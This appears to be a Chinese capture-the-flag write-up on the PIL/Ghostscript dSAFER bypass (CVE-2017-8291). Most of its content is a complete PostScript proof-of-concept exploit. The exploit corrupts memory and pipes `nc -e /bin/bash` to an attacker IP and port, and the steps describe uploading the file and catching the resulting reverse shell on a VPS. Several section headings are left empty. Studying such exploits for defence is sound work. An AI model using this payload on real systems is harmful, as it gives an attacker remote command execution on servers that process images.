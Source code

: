 # pillow
## **【原理】**

Python PIL Module Command Execution Vulnerability

PIL 在对 eps 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在 dSAFER 模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER 模式 Bypass 漏洞的影响，产生命令执行漏洞。

GhostButt CVE-2017-8291

具体漏洞细节参照以下文章：

https://paper.seebug.org/405/

https://xianzhi.aliyun.com/forum/read/2163.html

## **【目的】**

## **【环境】**

## **【工具】**

## **【步骤】**

上传带payload的png，payload为`nc -e /bin/bash <IP> <PORT>`，然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。

![1](files_for_writeup/1.png)
### PoC

```python
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def

0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for

/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put

buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put

currentdevice null false mark /OutputFile (%pipe%nc -e /bin/bash <ip> <port>)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```



## 【总结】**



